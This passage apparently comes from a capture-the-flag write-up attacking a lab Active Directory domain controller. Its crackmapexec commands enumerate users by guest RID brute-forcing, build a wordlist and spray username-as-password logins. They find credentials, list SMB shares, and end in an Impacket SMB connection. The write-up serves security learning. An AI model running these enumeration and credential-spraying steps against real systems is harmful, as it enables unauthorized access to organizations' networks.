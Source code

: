 ```
```
This method was successful, and it returned a large list of domain users and groups.

## Exporting Users to a File
To handle the volume of results, I used awk to extract usernames into a dedicated wordlist:
```
crackmapexec smb 10.201.91.100 -u 'guest' -p '' --rid-brute | awk '{split($6,a,"\\"); print a[2]}' > users.txt
```
This created a users.txt file containing all the enumerated usernames for further testing.

## Checking for Weak Credentials
Next, I checked if any users had their username set as the password A common misconfiguration. CrackMapExec makes this easy:
```
crackmapexec smb 10.201.91.100 -u users.txt -p users.txt --no-bruteforce --continue-on-success
```
This command tests username=password logins, and I found at least one valid account using this weak setup.
This quickly revealed valid credentials:
```
[+] SOUPEDECODE.LOCAL\ybob317 : ybob317
```

## Enumerating SMB Shares with Valid Credentials
With the discovered credentials, I enumerated accessible SMB shares:
```
crackmapexec smb 10.201.91.100 -u 'ybob317' -p 'ybob317' --shares

SMB  10.201.91.100   445    DC01    [*] Windows 10.0 Build 20348 x64 (domain:SOUPEDECODE.LOCAL)
SMB  10.201.91.100   445    DC01    [+] SOUPEDECODE.LOCAL\ybob317:ybob317
SMB  10.201.91.100   445    DC01    [*] Enumerated shares
SMB  10.201.91.100   445    DC01    Share           Permissions   Remark
SMB  10.201.91.100   445    DC01    -----           -----------   ------
SMB  10.201.91.100   445    DC01    ADMIN$                        
SMB  10.201.91.100   445    DC01    backup                        
SMB  10.201.91.100   445    DC01    C$                            
SMB  10.201.91.100   445    DC01    IPC$            READ          
SMB  10.201.91.100   445    DC01    NETLOGON        READ          
SMB  10.201.91.100   445    DC01    SYSVOL          READ          
SMB  10.201.91.100   445    DC01    Users           READ
```
The Users share was readable, which is usually where user directories and potential flags are stored.

## Accessing the Users Share with Impacket
Since my original VM expired, I spun up another machine with a new IP and used Impacket's SMB client to connect:
```
python3 examples/smbclient.py 10.201.1.205/ybob317:ybob317@10.201.1.205
```
